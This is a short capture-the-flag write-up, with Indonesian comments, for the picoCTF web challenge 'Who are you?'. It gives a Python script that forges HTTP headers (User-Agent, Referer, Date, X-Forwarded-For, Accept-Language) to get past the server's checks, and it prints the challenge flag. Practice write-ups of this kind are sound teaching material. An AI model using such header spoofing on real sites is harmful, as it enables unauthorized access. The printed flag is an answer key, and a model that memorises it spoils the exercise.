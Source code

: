 <h1>Who are you?</h1>
<h3>Description</h3>
<pre>
Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn <a href='http://mercury.picoctf.net:52362/'>Link</a>
</pre>
<h3>Solution</h3>
<p>Penuhi semua permintaan halaman web</p>

```python3
import requests
from datetime import datetime


url = 'http://mercury.picoctf.net:52362/'
headers = {
    'user-agent': 'PicoBrowser', #browser
    'Referer': url, #visiting user
    'Date': datetime(2018, 1, 1, 0, 0).strftime('%a, %d %b %Y %H:%M:%S GMT'), #tanggal
    'DNT':'1', #do not track
    'X-Forwarded-For': '81.236.40.0', #ip sweden
    'Accept-Language': 'sv-SE', #bahasa sweden
}

res = requests.get(url, headers=headers)

print(res.text)

```
<h3>Flag</h3>
<pre>
picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_0c0db339}
</pre>
